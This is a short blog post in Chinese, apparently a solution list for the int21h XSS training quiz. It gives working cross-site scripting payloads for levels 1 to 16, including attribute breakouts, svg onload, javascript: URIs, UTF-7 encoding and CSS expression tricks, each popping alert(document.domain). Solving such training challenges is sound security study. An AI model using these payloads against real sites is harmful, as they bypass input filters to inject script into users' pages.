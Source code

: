 ```yaml
---
layout: post
title: Xss-quiz.int21h.jp
---
```


知乎上有人邀请回答 int21h 的跨站题，晚上抽空重新做了一遍：

    1, 2: test"/onmouseover=alert(document.domain)//
    3: edit counttry: <script>alert(document.domain)</script>
    4: hidden input: <input type="hidden" name="p3" value="hackme”> / test"><svg onload=alert(document.domain)>
    5: Modified label length (maxlength): a"/onclick=alert(document.domain);//
    6: mog"onclick=alert(document.domain)//
    7: mog onmouseover=alert(document.domain);
    8: javascript:alert(document.domain);
    9: +ACIAIABvAG4AYwBsAGkAYwBrAD0AYQBsAGUAcgB0ACgAZABvAGMAdQBtAGUAbgB0AC4AZABvAG0AYQBpAG4AKQAvAC8-
    10: test"/onclick=alert(document.dodomainmain)//
    11: mog"><a/href=javascr&#09;ipt:alert(document.domain)>test</a>
    12: `` onmousemove=alert(document.domain)//ie
    13:background:url(javascript:alert(document.domain))
    14:mog:ex\0pression(onmouseover=function(){alert(document.domain)})
    15:\\x3csvg onload=alert(document.domain);\\x3e
    16:\\u003csvG/onload=alert(document.domain);\\u003e
    17,18: ...
